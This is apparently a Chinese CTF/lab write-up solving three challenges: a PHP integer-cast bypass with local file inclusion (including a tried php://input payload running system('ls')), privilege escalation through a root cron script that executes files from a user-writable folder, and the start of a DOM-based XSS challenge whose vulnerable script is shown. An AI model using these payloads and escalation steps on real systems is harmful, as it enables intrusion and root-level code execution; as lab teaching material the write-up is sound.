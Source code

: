 代码要求以 GET 方法传入 time，使得 time 大于 5184000，小于 7776000，然后 sleep 相应的时间。

强制转换（`(int)$_GET['time']`）遇到字母就停止。所以我们可以直接使用科学计数法的 `6e6`，既可以满足前面的大小比较，转换后又只剩下了 6。

接下来我们要找到 flag 在哪里，这里需要利用 `include` 相关的漏洞。我尝试使用 `/?time=6e6&file=php://input` 去 POST `<?php system("ls"); ?>`，但没有反应，显然相关的都被 ban 了。所以只能去猜 flag 在哪个位置。最后在 `/?time=6e6&file=/flag` 找到了。

# 利用计划任务获取 flag

> 在操作机中通过 ssh 连接靶机，账号 test、密码 123，进行后续的操作。
>
> 靶机环境中配置了一个仅有 root 运行权限的定时脚本 writable.sh，脚本功能分析代码可得。
>
> 与此同时，靶机环境中 /root 文件下配置了一个可执行文件 getflag，即 /root/getflag，用以获取 flag。
>
> 请分析并利用该定时任务，获取 flag。

首先连接 SSH

```bash
$ ssh test@1.6.54.3
```

输入密码即可登录。

```bash
$ ls
test  writable.sh
$ cat writable.sh
#!/bin/sh
for i in /home/test/test/*; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

`ulimit -t` 设置了 CPU 使用时间的上限，单位为秒。`bash -x` 为调试模式，会打印每条命令的执行情况。`rm -f` 删除文件。

它会定时执行 `/home/test/test` 中的文件，因此我们只需要把要运行的程序放在这个文件夹中，然后等它自动执行即可。

```bash
$ cd /home/test/test
$ echo "/root/getflag > /tmp/flag" > run
$ cd /tmp
$ cat flag
```

# dom 型 xss 攻击

> 浏览器进入靶机 IP 地址首页，根据网页提示找出 flag！
>
> 提示，根据此漏洞可以得到 ssh 登录的用户名，密码也是和用户名相关的弱密码

访问网站，可以在源代码里看到 js

```javascript
function log(){
    alert('admin * /home/admin   /bin/bash');
}
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+1);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}
document.write("<option value='PHP'>PHP</option>");
document.write("<option value='Javascript'>Javascript</option>");
document.write("<option value='HTML'>HTML</option>");
document.write("<option value='Shell'>Shell</option>");
```